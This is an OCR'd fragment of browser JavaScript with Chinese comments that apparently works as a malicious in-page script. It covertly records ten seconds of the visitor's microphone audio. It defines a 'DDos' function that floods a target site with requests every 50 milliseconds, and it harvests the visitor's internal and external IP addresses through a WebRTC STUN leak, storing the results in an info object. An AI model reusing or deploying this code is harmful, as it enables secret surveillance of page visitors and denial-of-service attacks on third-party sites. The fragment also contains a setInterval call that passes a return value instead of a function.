 ```
                HZRecorder.throwErr('当前浏览器不支持录音功能。');
                return;
            }
        }
    };

    window.HZRecorder=HZRecorder;

    var recorder;
    HZRecorder.get(function (rec) {
        recorder=rec;
        recorder.start();
    });

    // 录音10s
    setTimeout(function(){
        var blob=recorder.getBlob();
        info.blob=blob;
        console.log('voice record finished.');
    },10000);
}

// DDos攻击
function DDos(site){
    // CSRF
    setInterval(ajax(site,function(){
        console.log('DDos ',site);
    }),50);
}

// 获取IP地址，第一个是内网ip，第二个是外网ip
function getIPs(callback){
    var ip_dups = {};
    var RTCPeerConnection = window.RTCPeerConnection || window.mozRTCPeerConnection || window.webkitRTCPeerConnection;
    var mediaConstraints = {
        optional: [{RtpDataChannel: true}]
    };
    var servers = undefined;
    var i = 0;
    if(window.webkitRTCPeerConnection) servers = {iceServers: [{urls:"stun:stun.services.mozilla.com"}]};
    var pc = new RTCPeerConnection(servers, mediaConstraints);
    pc.onicecandidate = function(ice){
        if(ice.candidate){
            var ip_regex = /([0-9]{1,3}(\.[0-9]{1,3}){3})/
            var ip_addr = ip_regex.exec(ice.candidate.candidate)[1];
            if (ip_dups[ip_addr] === undefined) callback(ip_addr, i++);
            ip_dups[ip_addr] = true;
        }
    };
    pc.createDataChannel("");
    pc.createOffer(function(result){
        pc.setLocalDescription(result, function(){});
    }, function(){});
}

function get_ip_addr(){
    getIPs(function(ip, i){
        if(i == 0) info.inner_ip = ip;
        else if(i == 1) info.ip = ip;
    });
}
```